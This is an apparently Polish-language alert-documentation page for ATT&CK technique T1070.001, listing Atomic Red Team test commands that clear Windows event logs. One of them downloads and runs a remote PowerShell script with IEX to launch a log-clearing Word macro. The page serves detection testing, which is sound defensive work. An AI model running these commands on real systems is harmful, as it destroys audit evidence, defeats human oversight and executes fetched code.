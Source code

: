 # Alert: Clear Windows Event Logs

Opis scenariusza, podatności lub techniki.

---

**Technika:** T1070.001  
**Nazwa:** Clear Windows Event Logs  
**Taktyki:** Defense-Evasion  
**Status:** Pending  
**Autor:** Krzysztof K.  

---

<!--
Tactics: Defense-Evasion
Technique ID: T1070.001
Technique Name: Clear Windows Event Logs
Status: Pending
--> 


---

## Atomic Red Team – dostępne testy dla tej techniki

### Clear Logs
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
wevtutil cl #{log_name}
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1070.001\Clear_Logs/test_1.cmd)

### Delete System Logs Using Clear-EventLog
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1070.001\Delete_System_Logs_Using_Clear-EventLog/test_1.ps1)

### Clear Event Logs via VBA
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1070.001\Clear_Event_Logs_via_VBA/test_1.ps1)

[Zobacz testy na GitHubie](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1070.001)
